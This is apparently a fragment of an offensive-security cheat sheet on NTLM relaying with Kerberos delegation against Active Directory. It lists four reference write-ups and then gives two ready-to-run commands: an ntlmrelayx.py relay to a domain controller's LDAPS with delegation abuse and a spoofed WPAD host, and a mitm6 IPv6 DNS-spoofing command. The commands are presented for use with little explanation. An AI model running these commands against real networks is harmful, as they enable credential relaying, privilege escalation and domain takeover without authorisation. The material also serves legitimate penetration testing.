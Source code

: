 * [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
* [https://chryzsh.github.io/relaying-delegation/](https://chryzsh.github.io/relaying-delegation/)
* [https://www.exploit-db.com/docs/48282](https://www.exploit-db.com/docs/48282)
* [[PDF] From Zero Credential to Full Domain Compromise (Haboob Team)](https://drive.google.com/file/d/1htCGIt1Wcg53zCSGnRk4wfcKOk5A_YDP/view?usp=sharing)

```
$ sudo /usr/local/bin/ntlmrelayx.py -t ldaps://DC01.megacorp.local --delegate-access --no-smb-server -wh attacker-wpad --no-da --no-acl --no-validate-privs [-debug]
$ sudo mitm6 -i eth0 -d megacorp.local --ignore-nofqdn
```
